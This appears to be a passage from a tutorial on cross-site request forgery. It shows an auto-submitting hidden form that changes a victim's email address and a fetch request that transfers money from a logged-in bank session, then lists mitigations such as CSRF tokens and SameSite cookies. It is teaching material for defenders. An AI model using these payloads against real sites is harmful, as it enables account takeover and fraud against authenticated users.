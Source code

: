 #### **Attack Execution**

1.  **Attacker Embeds a Hidden Form on a Malicious Website**

    ```html
    <form action="https://example.com/change-email" method="POST">
        <input type="hidden" name="email" value="attacker@example.com">
        <script>document.forms[0].submit();</script>
    </form>
    ```
2. **User Visits the Malicious Page**
   * The script executes immediately, submitting the form **without user interaction**.
3. **Server Accepts the Request**
   * Since the user is authenticated, their cookies are automatically sent with the request.
   * The email gets changed without their knowledge.

#### **Mitigation Strategies**

* **CSRF Tokens**: Every form submission must include a unique, server-generated token.
* **SameSite Cookies**: Prevent browsers from sending cookies in cross-site requests.
* **Referrer Header Validation**: Check that the request originated from the same domain.

### 3. CSRF via AJAX Requests

Modern applications often use **AJAX requests** to communicate with the server dynamically. If CORS (Cross-Origin Resource Sharing) is **misconfigured**, an attacker can craft a **malicious JavaScript script**that triggers API requests from an external site using the victim’s session.

#### **Example Scenario: Unauthorized Money Transfer via Fetch API**

A bank provides an API for transferring funds via AJAX:

```javascript
fetch("https://bank.com/transfer", {
    method: "POST",
    credentials: "include",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ to: "attacker", amount: 5000 })
});
```

If the user is authenticated, the browser **automatically includes session cookies** in the request, making it valid.

#### **Attack Execution**

1.  **Attacker Hosts Malicious JavaScript**

    ```javascript
    fetch("https://bank.com/transfer", {
        method: "POST",
        credentials: "include",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify({ to: "attacker", amount: 5000 })
    });
    ```
2. **User Visits a Malicious Page**
   * The script executes automatically in the background.
   * The browser sends a request to `bank.com` with the user’s cookies.
3. **The Bank’s Server Processes the Request**
   * Since the request looks legitimate, the transaction is completed.
